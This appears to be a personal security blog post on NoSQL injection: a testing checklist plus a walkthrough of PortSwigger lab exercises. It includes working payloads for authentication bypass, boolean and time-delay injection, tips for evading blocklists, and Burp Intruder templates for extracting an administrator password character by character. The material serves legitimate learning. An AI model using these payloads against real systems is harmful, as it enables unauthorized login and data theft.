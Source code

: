 ```yaml
---
layout: post
title: NoSQLi
subtitle: Insert NoSQL query to bypass authentication and retrieve data from the database 
date: 2025-07-30 09:59
author: Ren Sie
comments: true
category: injection
cover-img: /assets/img/Post_Cover.png
thumbnail-img: /assets/img/githubpost/NoSQLi_thumb.png
share-img: /assets/img/Post_Cover.png
---
```


Refer: [OWasp A03:2021](https://owasp.org/Top10/A03_2021-Injection/)

NoSQL injection is similar to SQL injection in that it allows an attacker to manipulate or inject malicious input into a NoSQL query to retrieve, modify, or delete data. However, the key difference lies in the database type and query language.  
* SQLi
  * SQL database (E.g., MariaDB, MySQL, PostgreSQL)
  * Structure Query Language

* NoSQLi
  * Semi-structured database (E.g., MongoDB, CouchDB)
  * JSON-like documents or key-value pairs

### Types of NoSQLi
1. Syntax injection: Attacker injects an unclosed string literal (`'`), to break the query’s logic.
2. Operator injection: Attacker injects NoSQL operator (`$gt`, `$lt`, `$eq`, `$ne`, `$regex`, etc.) into the query, changing the query’s logic to return unintended results or bypass authentication.

### Checklist
<details markdown="1">
  <summary>Click me to expand checklist</summary>  
  1. **What is the technology stack you're attacking?**  
      * Frontend technologies (e.g., React, Angular)  
      * Backend frameworks and languages (e.g., Node.js, Django)  
      * Web server (e.g., Apache, Nginx)  
      * Database (SQL or NoSQL)  
      * Other middleware, caching, cloud services, and tools that make up the full system  

  2. **What NoSQL DB is being used?**  
      * MongoDB, Amazon DynamoDB, Apache Cassandra, Neo4j, etc.

  3. **Verify injection points:**  
      * URL parameters (`?user=admin&id=123`)  
      * Form fields (e.g., login forms or search boxes)  
      * HTTP headers (e.g., cookies, user-agent, authorization token, X-Forwarded-For, etc.)  

  4. **Test with different operators:** `$eq`, `$ne`, `$gt`, `$gte`, `$lt`, `$lte`, etc.  

  5. **Can you trigger different responses?**  
      * Successful Authentication Bypass  
      * Data Disclosure  
      * Error Messages  
      * Application Behavior Change (e.g., listing additional items, showing admin-only features, etc)  
      * Partial or Conditional Responses (e.g., responses exist if a condition is true and not if false)  
      * Out-of-band (data retrieved from a third party apis)  
      * No Response or Timeout  
      * Second-order Effects (Payloads stored and executed later cause delayed changes or access)  

  6. **Test for login bypass:**(e.g., `{"$ne": ""}`)  

  7. **Test for blind NoSQLi:** (e.g., `username=admin password={"$regex": "^a"}`)  
      * If login behaves differently when varying regex, blindness confirmed  

  8. **Test for errors:** (e.g., `category='\"{;$Foo}\n$Foo \xYZ\0`)  
      * If the server returns an error message or 500 status, error-based injection is possible.

  9. **Test for conditional responses:** (e.g., `category='fizzy' && 1==1 versus category='fizzy' && 1==0`)  
      * See if content or status differs indicating injection logic control.

  10. **Test for conditional errors:** (e.g., `{"$where": "this.username == 'admin' && undefinedFunc()"}`)  
      * An error occurs only if the condition matches.

  11. **Test for time delays:** (e.g., `{"$where": "sleep(5000)"}`)  

  12. **Test for out-of-band interactions**  
      * Inject NoSQL operators that cause the database to make DNS/HTTP requests to an attacker-controlled server via functions or extensions.

  13. **Is there a blocklist?** (e.g., disallowing `$ne`, `$or`, or special symbols)  

  14. **Can we bypass the blocklist?**  
      * Using different encodings (e.g., URL encoding, Unicode)  
      * Exploiting incomplete blocklists that only filter some operators or keywords  
      * Using alternate operator names or synonyms (e.g., `$not` instead of `$ne`)  
      * Taking advantage of application logic errors  
      * Using payloads that do not rely on blocked keywords but still affect query logic (e.g., `$where` with time delays or logic conditions )
</details>

### Lab
Just for demostration, I completed a few labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#nosql-injection) to show how this vulnerability can lead to:

#### 1. Detecting NoSQL injection
The product category filter for this specific web application is powered by MongoDB, I utilize NoSQL injection that causes the application to display unreleased products.  
  
Firstly, I capture and modify the `GET /filter?category=(category)` request using Burp Repeater.  
Then testing the vulnerability by using a single quote `'` to break the query and trigger a server error.  
After identifying the vulnerability, I insert boolean/truthy expression payloads to manipulate the server response with Burp Repeater and reveal hidden items.  
  ~~~
  GET /filter?category=Pets '||'1'=='1 or
  GET /filter?category=Pets '||1|| '
  ~~~

#### 2. NoSQL operator injection to bypass authentication  
The login functionality for this specific application is powered by MongoDB. Which can be potentially vulnerable to NoSQL injection using MongoDB operators. Our goal is to log into the application as the administrator user.  
  
To test the operator injection vulnerability, I use Burp Proxy to capture the `login request`, and change the `password parameter value` with MongoDB operators on Burp Repeater
 ~~~
{"username": "user1", "password":{"$ne":"dgdfg"}}
 ~~~
 > Response: 302 Indicates the operator injection is valid, we log in as user1 with password is not equal to dgdfg.  
 > HTTP/2 302 Found  
 > Location: /my-account?id=user1  
 > Set-Cookie: session = T3qC4KyBeNJLu0SwOrBuv9M7ko6rDiMa;  
 > Secure; HttpOnly; SameSite=None  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 0

Now that I know the web application is vulnerable to NoSQL injection, I will try using regex for all common administrator usernames and repeat the same process as the previous step for the password.
 ~~~
 {"username":{"$regex":"adm.*"},"password":{"$ne":""}} 
 ~~~
 > Response: 302 Indicates the operator injection is valid, we log in as admin9hhcmyfb with password is not equal to blank.  
 > HTTP/2 302 Found  
 > /my-account?id=admin9hhcmyfb  
 > Set-Cookie: session = T3qC4KyBeNJLu0SwOrBuv9M7ko6rDiMa;  
 > Secure; HttpOnly; SameSite=None  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 0

{: .box-note}
**Note:** Refer to [MongoDB Documentation](https://www.mongodb.com/docs/php-library/current/crud/query/specify-a-query/) for more details about its operators

#### 3. Exploiting NoSQL injection to extract data 
The user lookup functionality for this instnace is powered by a MongoDB NoSQL database. It is possibly vulnerable to NoSQL injection. Our goal is to extract the password for the administrator user, then log in to their account.
Firstly 
To test the vulnerability, I start off sending a single character with in GET `/user/lookup?user=`
 ~~~
 GET /user/lookup?user=' 
 ~~~
 > Response: The message in the response indicates this is vulnerabile to NoSQLi  
 > HTTP/2 200 OK  
 > Content-Type: application/json;  
 > charset=utf-8  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 58  
 > {"message": "There was an error getting user details"}  

Then I modify and send a Boolean expression in Burp Repeater to discover a hidden user, such as "administrator": 
 ~~~
 GET /user/lookup?user=wiener'||'1'=='1 
 ~~~
 > Response: It provides me the available user's information  
 > HTTP/2 200 OK  
 > Content-Type: application/json;  
 > charset=utf-8  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 96  
 > {"username": "administrator", "email":"admin@normal-user.net", "role":"administrator"}

Now we have the username, time to figure out thier password. I use Burp Intruder to submit numeric payloads (1–30) and determine that the administrator's password length is 8 by studying the Length of the response: 
 ~~~
 administrator' && this.password.length == §1§ 
 ~~~
![Burp Intruder Response](https://rencybersec.github.io/assets/img/githubpost/NoSQLi_1.png)

After determining the password length, I use Intruder’s Cluster Bomb attack mode to discover each character of the password. The first payload position represents the index (0–7) of each character in the administrator's password, while the second payload position represents the character (a–z) to test at each position. We will reuse the same technique from the previous step, where we analyze the response length to determine which letter appears in the password.
 ~~~
 administrator' && this.password[§0§] == '§a§
 ~~~
